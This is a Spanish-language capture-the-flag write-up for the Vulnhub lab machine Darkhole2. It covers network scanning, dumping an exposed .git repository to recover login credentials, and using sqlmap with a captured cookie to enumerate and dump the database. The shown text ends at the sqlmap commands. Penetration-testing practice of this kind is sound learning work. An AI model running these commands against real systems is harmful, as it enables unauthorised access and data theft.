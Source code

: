 # Darkhole2-Vulnhub-Writeup
Writeup de la maquina Darkhole2 de Vulnhub

El sistema se pondra a prueba en VirtualBox

![descripcion](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/descripcion.jpg)

## Escaneo de Red
En primer lugar, tenemos que obtener la dirección IP del objetivo

![uso del netdiscover](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/netdiscover.jpg)

~~~
netdiscover
~~~

Iniciando Nmap para avanzar en este proceso. Realizamos un escaneo agresivo (-A) para la enumeración de puertos abiertos y descubrimos la siguiente información de puertos:

~~~
nmap -A 192.168.40.133
~~~

![uso del nmap](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/nmap.jpg)

De acuerdo con la salida de Nmap, tenemos:
Un servidor SSH que se ejecuta en el puerto 22.
Un servicio HTTP ejecutándose (servidor Apache) en el puerto 80, así como una página http-git.

## Enumerar el servidor web
Debido a que el servidor Apache está escuchando en el puerto 80, podemos verificarlo inmediatamente en el navegador.

![visualizacion de laweb](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/web.jpg)

Decidimos echar un vistazo a la página de inicio de sesión.

![vista login](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/login.jpg)

Decidimos echar un vistazo a la página http-git que descubrimos previamente durante el escaneo agresivo de Nmap.
![vista repositorio git](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/git.jpg)

Usamos git-dumper
Es una herramienta para adquirir un repositorio git de un sitio web para obtener una mejor comprensión del conjunto de datos.
Simplemente usamos la función de clonación de git.
Creamos un directorio para nuestro respaldo .git

![vista gitclone](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/gitclone.jpg)
~~~
cd darkhole2
git clone https://github.com/arthaud/git-dumper.git
ls
cd git-dumper 
mkdir backup
~~~

Después de descargar la herramienta, intentamos ejecutarla con python .

![vista gitlog](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/gitdumpe%20python.jpg)
~~~
python3 git_dumper.py http://192.168.40.133/.git/ backup
~~~

Después de eso, accedimos al directorio de respaldo y el archivo de registro tenía tres entradas. Usando git, abrimos una de las entradas para continuar.
Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.

![vista gitlog](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/git%20log.jpg)
~~~
cd backup
ls
git log
git diff  a4d900a8d85e8938d3601f3cef113ee293028e10
~~~

Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.

~~~
Email: lush@admin.com
Password: 321
~~~

## Eplotación
Nos logeamos en esa página, parece ser adecuada para tácticas relacionadas con la inyección de SQL.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/375d0afe-a663-4ae2-8ed7-7b8d8306ebf3)

###BURP SUITE
Entonces, usamos burpsuite para recopilar las cookies de esta página. Será ventajoso para nuestra estrategia de inyección SQL.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/67b83dec-2f36-473b-a4fa-3e095e98f890)

###Usando SQLMAP
Insertamos la cookie capturada anteriormente en sqlmap 

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/a1530d38-1748-4d26-be2e-8bea8c6bd538)

~~~
sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="coiafrua9mc461a8436it7eiu4" --dbs –batch
sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="coiafrua9mc461a8436it7eiu4" -D darkhole_2 --dump-all --batch
~~~
